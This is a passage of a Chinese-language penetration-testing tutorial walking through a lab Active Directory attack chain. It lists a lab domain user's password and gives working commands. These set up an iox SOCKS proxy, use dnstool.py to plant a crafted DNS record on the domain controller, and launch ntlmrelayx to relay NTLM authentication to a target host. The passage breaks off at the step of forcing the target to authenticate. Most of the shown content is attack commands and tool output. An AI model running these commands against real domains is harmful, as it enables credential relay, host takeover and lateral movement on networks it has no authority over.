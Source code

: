 0x04   
完整攻击流程  
  
  
参考资料  
  
搭建环境如下，并将入口机上线到攻击机的 CS：  
  
```
已获得普通域用户：domainuser01 / User01!@#域控DC Windows server 2022：192.168.214.134域内目标主机 Windows server 2022：192.168.214.135 入口跳板主机 Windows server 2022  192.168.214.136  192.168.56.130 (模拟外网IP) 攻击机 Windows 11：192.168.56.131公网VPS Kali Linux：192.168.56.129
```  
  
  
一. 目标主机出网  
  
在目标出网的情况下可以直接在 VPS 服务器上进行监听。  
  
1.   
开启   
socks  
 代理并配置本地   
proxifier  
 。  
  
```
iox.exe proxy -l 8080
```  
  
  
2.   
向域控  
添加 DNS 解析记录  
。因为 LDAP 使用 TCP 而 DNS 查询使用 UDP （DNS 服务器一般默认支持 TCP 查询），为了实现实战中不同工具场景下更好的兼容性 ，最好是将 UDP 封装到 TCP 中传输 ，  
dnstool.py  
 已经集成了该功能，可以非常方便的直接使用。  
  
```
python dnstool.py -u luckytom.com\domainuser01 -p User01!@# -r badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.214.137 --action modify 192.168.214.134 --tcp＃ 这里必须加 --tcp 参数将 UDP 封装在 TCP中进行 DNS 查询
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElNVnpeR4DRjEJx1cclcqfpLIjhKPFibOgbRAxfOAicJ0dzTiakbp63ibJeg/640?wx_fmt=png&from=appmsg "")  
  
  
3.   
开启 relay 监听，因为目标主机出网因此不必指定端口。  
  
```
python ntlmrelayx.py -t 192.168.214.135 -smb2support
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElekKQTcsMU955KME3t3Dy8WplDhoXsthxLxzyPoOtQwJNgvDNcWicr2w/640?wx_fmt=png&from=appmsg "")  
  
  
4.   
强制目标主机发起   
NTLM 认证  
。  
  